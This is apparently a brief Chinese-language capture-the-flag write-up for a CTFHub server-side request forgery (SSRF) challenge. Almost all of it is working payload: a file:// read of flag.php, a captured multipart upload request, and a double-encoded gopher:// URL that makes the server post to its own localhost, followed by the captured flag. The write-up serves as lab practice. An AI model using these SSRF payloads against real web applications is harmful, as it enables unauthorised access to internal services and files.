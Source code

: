 ```http://challenge-c31e7c56cac9116a.sandbox.ctfhub.com:10800/?url=file:///var/www/html/flag.php```
用gopher协议

```
POST /flag.php HTTP/1.1
Host: challenge-1e43d5d6a835ce72.sandbox.ctfhub.com:10800
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundaryc2989fe8059f83f994d023bd4cf9bce8
Content-Length: 333
Origin: http://challenge-1e43d5d6a835ce72.sandbox.ctfhub.com:10800
Connection: close
Referer: http://challenge-1e43d5d6a835ce72.sandbox.ctfhub.com:10800/?url=127.0.0.1/flag.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache

------geckoformboundaryc2989fe8059f83f994d023bd4cf9bce8
Content-Disposition: form-data; name="file"; filename="ss.txt"
Content-Type: text/plain

111
------geckoformboundaryc2989fe8059f83f994d023bd4cf9bce8
Content-Disposition: form-data; name="submit"

提交查询
------geckoformboundaryc2989fe8059f83f994d023bd4cf9bce8--

```

![image-20250419222916072.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a391c93199f344450e8a1e1a3e56fc907d?version=1.0&width=2046&height=1536)

``` 
url=gopher://127.0.0.1:80/_POST%2520%252Fflag%252Ephp%2520HTTP%252F1%252E1%250D%250AHost%253A%2520challenge%252D1e43d5d6a835ce72%252Esandbox%252Ectfhub%252Ecom%253A10800%250D%250AUser%252DAgent%253A%2520Mozilla%252F5%252E0%2520%2528Windows%2520NT%252010%252E0%253B%2520Win64%253B%2520x64%253B%2520rv%253A136%252E0%2529%2520Gecko%252F20100101%2520Firefox%252F136%252E0%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0%252E9%252C%252A%252F%252A%253Bq%253D0%252E8%250D%250AAccept%252DLanguage%253A%2520zh%252DCN%252Czh%253Bq%253D0%252E8%252Czh%252DTW%253Bq%253D0%252E7%252Czh%252DHK%253Bq%253D0%252E5%252Cen%252DUS%253Bq%253D0%252E3%252Cen%253Bq%253D0%252E2%250D%250AAccept%252DEncoding%253A%2520gzip%252C%2520deflate%252C%2520br%250D%250AContent%252DType%253A%2520multipart%252Fform%252Ddata%253B%2520boundary%253D%252D%252D%252D%252Dgeckoformboundaryc2989fe8059f83f994d023bd4cf9bce8%250D%250AContent%252DLength%253A%2520333%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge%252D1e43d5d6a835ce72%252Esandbox%252Ectfhub%252Ecom%253A10800%250D%250AConnection%253A%2520close%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge%252D1e43d5d6a835ce72%252Esandbox%252Ectfhub%252Ecom%253A10800%252F%253Furl%253D127%252E0%252E0%252E1%252Fflag%252Ephp%250D%250AUpgrade%252DInsecure%252DRequests%253A%25201%250D%250APriority%253A%2520u%253D0%252C%2520i%250D%250APragma%253A%2520no%252Dcache%250D%250ACache%252DControl%253A%2520no%252Dcache%250D%250A%250D%250A%252D%252D%252D%252D%252D%252Dgeckoformboundaryc2989fe8059f83f994d023bd4cf9bce8%250D%250AContent%252DDisposition%253A%2520form%252Ddata%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522ss%252Etxt%2522%250D%250AContent%252DType%253A%2520text%252Fplain%250D%250A%250D%250A111%250D%250A%252D%252D%252D%252D%252D%252Dgeckoformboundaryc2989fe8059f83f994d023bd4cf9bce8%250D%250AContent%252DDisposition%253A%2520form%252Ddata%253B%2520name%253D%2522submit%2522%250D%250A%250D%250A%25E6%258F%2590%25E4%25BA%25A4%25E6%259F%25A5%25E8%25AF%25A2%250D%250A%252D%252D%252D%252D%252D%252Dgeckoformboundaryc2989fe8059f83f994d023bd4cf9bce8%252D%252D%250D%250A
```

![image-20250419223021693.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3269a57514cae4911a4e4737fe8f5397e?version=1.0&width=2046&height=1536)

**flag:ctfhub{b2184ba24b1f73711bbc433a}**

```